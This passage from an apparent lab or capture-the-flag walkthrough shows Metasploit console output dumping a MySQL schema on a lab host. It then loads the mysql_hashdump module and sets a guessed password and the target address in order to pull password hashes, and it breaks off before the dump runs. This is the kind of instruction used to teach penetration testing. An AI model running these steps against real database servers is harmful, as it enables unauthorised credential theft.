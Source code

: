 ```commandline
    - ColumnName: total_latency
      ColumnType: bigint(20) unsigned
    - ColumnName: avg_latency
      ColumnType: bigint(20) unsigned
    - ColumnName: max_latency
      ColumnType: bigint(20) unsigned
  - TableName: x$waits_global_by_latency
    Columns:
    - ColumnName: events
      ColumnType: varchar(128)
    - ColumnName: total
      ColumnType: bigint(20) unsigned
    - ColumnName: total_latency
      ColumnType: bigint(20) unsigned
    - ColumnName: avg_latency
      ColumnType: bigint(20) unsigned
    - ColumnName: max_latency
      ColumnType: bigint(20) unsigned

[*] 10.10.188.228:3306    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

We can do better and try to get the hashes. For this `search mysql_hashdump` and we will `use 0`.

```commandline
msf6 auxiliary(scanner/mysql/mysql_schemadump) > search mysql_hashdump

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  auxiliary/scanner/mysql/mysql_hashdump                   normal  No     MYSQL Password Hashdump
   1  auxiliary/analyze/crack_databases                        normal  No     Password Cracker: Databases


Interact with a module by name or index. For example info 1, use 1 or use auxiliary/analyze/crack_databases
```

Show the options we need to set and finally set them. This time I used `setg` to globally set them, so that i don't need to fill them again if we plan to play with another module which has the same variable names.

```commandline
msf6 auxiliary(scanner/mysql/mysql_hashdump) > show options

Module options (auxiliary/scanner/mysql/mysql_hashdump):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        The password for the specified username
   RHOSTS                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     3306             yes       The target port (TCP)
   THREADS   1                yes       The number of concurrent threads (max one per host)
   USERNAME                   no        The username to authenticate as

msf6 auxiliary(scanner/mysql/mysql_hashdump) > setg PASSWORD password
PASSWORD => password
msf6 auxiliary(scanner/mysql/mysql_hashdump) > setg RHOSTS 10.10.188.228
RHOSTS => 10.10.188.228
```